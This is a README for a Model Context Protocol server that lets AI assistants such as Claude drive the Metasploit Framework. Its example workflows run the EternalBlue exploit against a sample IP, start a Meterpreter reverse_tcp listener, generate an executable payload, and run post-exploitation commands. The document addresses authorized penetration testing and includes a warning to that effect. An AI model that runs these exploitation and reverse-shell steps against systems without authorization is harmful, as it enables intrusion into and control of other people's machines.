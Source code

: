 # Metasploit MCP Server

A Model Context Protocol (MCP) server for Metasploit Framework integration.

## Description

This MCP server provides a bridge between large language models like Claude and the Metasploit Framework penetration testing platform. It allows AI assistants to dynamically access and control Metasploit functionality through standardized tools, enabling a natural language interface to complex security testing workflows.

## Features

### Exploitation Workflow

- **list_exploits**: Search and list available Metasploit exploit modules
- **list_payloads**: Search and list available Metasploit payload modules
- **generate_payload**: Generate payload files using Metasploit RPC (saves files locally)
- **run_exploit**: Configure and execute an exploit against a target
- **list_active_sessions**: Show current Metasploit sessions
- **send_session_command**: Run a command in an active session

### Post-Exploitation Tools

- **get_system_info**: Retrieve system information from a Meterpreter session
- **get_user_id**: Get the current user context of a session
- **list_processes**: List running processes on the target system
- **migrate_process**: Move a Meterpreter session to another process
- **filesystem_list**: List files in a directory on the target system

### Listener Management

- **list_listeners**: Show all active handlers and background jobs
- **start_listener**: Create a new multi/handler to receive connections
- **stop_job**: Terminate any running job or handler

### Auxiliary Module Support

- **run_auxiliary_module**: Run any Metasploit auxiliary module with options

## Prerequisites

- Metasploit Framework installed and msfrpcd running
- Python 3.10 or higher
- Required Python packages (see requirements.txt)

## Installation

1. Clone this repository
2. Install dependencies:
   ```
   pip install -r requirements.txt
   ```
3. Configure environment variables (optional):
   ```
   MSF_PASSWORD=yourpassword
   MSF_SERVER=127.0.0.1
   MSF_PORT=55553
   MSF_SSL=false
   PAYLOAD_SAVE_DIR=/path/to/save/payloads  # Optional: Where to save generated payloads
   ```

## Usage

Start the Metasploit RPC service:

```bash
msfrpcd -P yourpassword -S -a 127.0.0.1 -p 55553
```

For Claude Desktop integration, configure `claude_desktop_config.json`:

```json
{
    "mcpServers": {
        "metasploit": {
            "command": "uv",
            "args": [
                "--directory",
                "C:\\path\\to\\MetasploitMCP",
                "run",
                "MetasploitMCP.py"
            ],
            "env": {
                "MSF_PASSWORD": "yourpassword"
            }
        }
    }
}
```

## Security Considerations

⚠️ **IMPORTANT SECURITY WARNING**:

This tool provides direct access to Metasploit Framework capabilities, which include powerful exploitation features. Use responsibly and only in environments where you have explicit permission to perform security testing.

- Always validate and review all commands before execution
- Only run in segregated test environments or with proper authorization
- Be aware that post-exploitation commands can result in significant system modifications

## Example Workflows

### Basic Exploitation

1. List available exploits: `list_exploits("ms17_010")`
2. Select and run an exploit: `run_exploit("exploit/windows/smb/ms17_010_eternalblue", "192.168.1.100", 445)`
3. List sessions: `list_active_sessions()`
4. Run commands: `send_session_command(1, "whoami")`

### Post-Exploitation

1. Get system information: `get_system_info(1)`
2. List running processes: `list_processes(1)`
3. Migrate to a more stable process: `migrate_process(1, 1234)`
4. Browse the filesystem: `filesystem_list(1, "C:\\Users")`

### Handler Management

1. Start a listener: `start_listener("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444)`
2. List active handlers: `list_listeners()`
3. Generate a payload: `generate_payload("windows/meterpreter/reverse_tcp", "exe", {"LHOST": "192.168.1.10", "LPORT": 4444})`
4. Stop a handler: `stop_job(1)`

## Configuration Options

### Payload Save Directory

By default, payloads generated with `generate_payload` are saved to a `payloads` directory in your home folder (`~/payloads` or `C:\Users\YourUsername\payloads`). You can customize this location by setting the `PAYLOAD_SAVE_DIR` environment variable.

**Setting the environment variable:**

- **Windows (PowerShell)**:
  ```powershell
  $env:PAYLOAD_SAVE_DIR = "C:\custom\path\to\payloads"
  ```

- **Windows (Command Prompt)**:
  ```cmd
  set PAYLOAD_SAVE_DIR=C:\custom\path\to\payloads
  ```

- **Linux/macOS**:
  ```bash
  export PAYLOAD_SAVE_DIR=/custom/path/to/payloads
  ```

- **In Claude Desktop config**:
  ```json
  "env": {
      "MSF_PASSWORD": "yourpassword",
      "PAYLOAD_SAVE_DIR": "C:\\your\\actual\\path\\to\\payloads"  // Only add if you want to override the default
  }
  ```

**Note:** If you specify a custom path, make sure it exists or the application has permission to create it. If the path is invalid, payload generation might fail.

## License

Apache 2.0
